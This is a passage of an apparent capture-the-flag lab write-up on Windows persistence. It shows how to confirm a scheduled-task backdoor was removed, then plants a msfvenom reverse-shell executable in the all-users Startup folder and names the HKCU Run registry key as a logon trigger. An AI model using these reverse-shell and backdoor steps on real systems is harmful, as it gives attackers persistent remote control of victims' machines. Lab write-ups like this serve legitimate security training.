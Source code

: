 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396970423/1e031184-c7b2-4818-87b0-047cd1740492.png align="center")

Confirm that it has been deleted:

```powershell
schtasks /query /tn thm-taskbackdoor
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396994639/cc0066e9-e0cb-4f0b-8a76-439722b88aa1.png align="center")

Grab `flag9.exe`.

### Logon Triggered Persistence

We can insert backdoors into the Windows OS Startup Folder.

Specific User:

```powershell
C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

All Users:

```powershell
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Let's create a reverse shell payload:

```bash
msfvenom -p /windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o revshell.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397078857/12cacee8-7c4b-4e4d-8138-b758e3b2a802.png align="center")

Upload it:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397085628/3c40c879-0255-42e5-8d1a-65ebc6f70405.png align="center")

Move it to the startup folder:

```powershell
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397110873/c5e9d7ee-ba75-4fca-8dd0-52ba945ab127.png align="center")

Log back into the RDP session and obtain the callback.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397124648/fc7c221d-a01c-4bda-8936-1ebab62c2bc0.png align="center")

Grab `flag10.exe`.

You can also force a user to execute a program upon login through the registry. Rather than placing your payload in a particular directory, you can utilize the following registry entries to designate applications to run at login:

```powershell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```
